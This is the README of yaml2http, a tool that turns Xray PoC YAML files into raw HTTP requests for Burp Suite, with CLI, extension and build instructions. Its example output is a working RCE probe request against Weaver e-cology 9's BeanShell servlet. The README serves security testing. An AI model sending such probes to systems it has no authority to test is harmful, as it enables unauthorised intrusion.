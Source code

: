 # yaml2http

一个将`Xray`的`Poc`转换成`http`请求明文的小工具，便于在`Burp Suite`一类的工具中使用。
与杜老师交流`Poc`存储问题而引出的产物，采用了一个简易版的基于`Xray`的`Poc`标准，它只支持描述`http`协议。目前功能尚不完善，还在开发中...

## Usage

当`Poc`的请求结构中包含不可打印字符时，推荐以插件形式载入`Poc`至`Burp Suite`中使用。

### CLI

运行

```bash
java -jar yaml2http-1.0.jar -p poc-yaml-ecology9-beanshell-rce.yaml
```

输出如下

```http
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36 Edg/104.0.1293.47
Connection: close
Host: localhost
Content-Length: 87

bsh.script=print%2842503*40455%29&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

帮助信息

```bash
java -jar yaml2http-1.0.jar -h
usage: yaml2http
 -b,--bytes <arg>   Path to file need to be convert, convert the file
                    content as bytes value with b"" format.
 -h,--help          Help info.
 -p,--path <arg>    Path to poc file.
```

### Burp Suite Extension

支持在`Burp Suite`中以插件形式进行使用，这种方式可以避免不可打印字符的问题。

使用方式，从`Extender`导入下载或编译的`jar`包

![](images/20220823113410.png)

进入`Repeater`页面，鼠标右键打开菜单并选择`Extension -> Yaml Poc Loader -> Import`，并选择需要载入的文件

![](images/20220823113616.png)

加载完成后如下，默认指定`localhost:80`作为目标。

![](images/20220823113627.png)

## Build

克隆源码到本地

```bash
git clone https://github.com/trganda/yaml2http
```

并执行

```bash
cd yaml2http
mvn clean compile assembly:single
```

之后可在`target`目录下查看编译后的`jar`包文件

## Todo

* [X] 完成`yaml`解析，读取已支持字段值
* [X] 完成变量定义外的`http`文本转换
* [X] 完成变量定义和表达式解析（已初步完成主体框架，后续补充方法功能即可）
* [ ] 完成`Content-Type`自识别（但`body`数据过短会引起判断失误，推荐`poc`中自行指定）
* [x] 完成变量定义字段其他方法的支持

